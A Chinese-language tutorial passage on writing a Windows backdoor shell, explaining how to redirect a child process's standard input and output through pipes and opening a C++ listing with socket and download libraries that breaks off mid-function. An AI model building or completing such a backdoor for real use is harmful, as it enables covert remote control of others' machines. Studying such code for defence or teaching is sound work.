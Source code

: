 在这里需要重点关注的是，设置[lpStartupInfo](mk:@MSITStore:C:%5CProgram%20Files%20(x86)%5CMSDNCOMPACT15%5Cdllproc.chm::/hh/winbase/)结构体中的内容。该结构体如下：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/fyfile/2446/1654136316052/077352782c454498b4b9ef3a9a14e075.png)

重点是需要将[hStdInput](mk:@MSITStore:C:%5CProgram%20Files%20(x86)%5CMSDNCOMPACT15%5Cdllproc.chm::/hh/winbase/)、[hStdOutput](mk:@MSITStore:C:%5CProgram%20Files%20(x86)%5CMSDNCOMPACT15%5Cdllproc.chm::/hh/winbase/)、[hStdError](mk:@MSITStore:C:%5CProgram%20Files%20(x86)%5CMSDNCOMPACT15%5Cdllproc.chm::/hh/winbase/)进行设置。设置为对应管道的读写句柄。

在本例中，[hStdInput](mk:@MSITStore:C:%5CProgram%20Files%20(x86)%5CMSDNCOMPACT15%5Cdllproc.chm::/hh/winbase/)为管道1的读句柄，[hStdOutput](mk:@MSITStore:C:%5CProgram%20Files%20(x86)%5CMSDNCOMPACT15%5Cdllproc.chm::/hh/winbase/)、[hStdError](mk:@MSITStore:C:%5CProgram%20Files%20(x86)%5CMSDNCOMPACT15%5Cdllproc.chm::/hh/winbase/)都设置为管道2的写句柄。

## 结合实战意义的后门shell实现代码（三）

```
#define _CRT_SECURE_NO_WARNINGS
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <WinSock2.h>
#include <iostream>
#include <windows.h>
#include <cstdlib>
#include <iostream>
#include <urlmon.h>
#include <WinInet.h>
#include <ctime>
#define CMD_LINE_LEN 512
#define RECV_BUF_LEN 4096
using namespace std;
 
#pragma comment(lib, "WinInet.lib")
#pragma comment(lib, "urlmon.lib")
#pragma comment(lib, "ws2_32.lib")
 
BOOL fExit = FALSE;
 
struct ThreadInfoNode
{
	SOCKET hSock;
	HANDLE hPipe;
};
 
 
int SndMsg(SOCKET hSock, char *szBuf, int nSize)
{
	int iOffset = 0;
	int iCurr = 0;
 
	if (INVALID_SOCKET == hSock ||
		NULL == szBuf ||
		nSize <= 0)
	{
		return(-1);
	}

	do
	{
		iCurr = send(hSock, szBuf + iOffset, nSize, 0);
		if (iCurr == SOCKET_ERROR)
		{
			break;
		}
```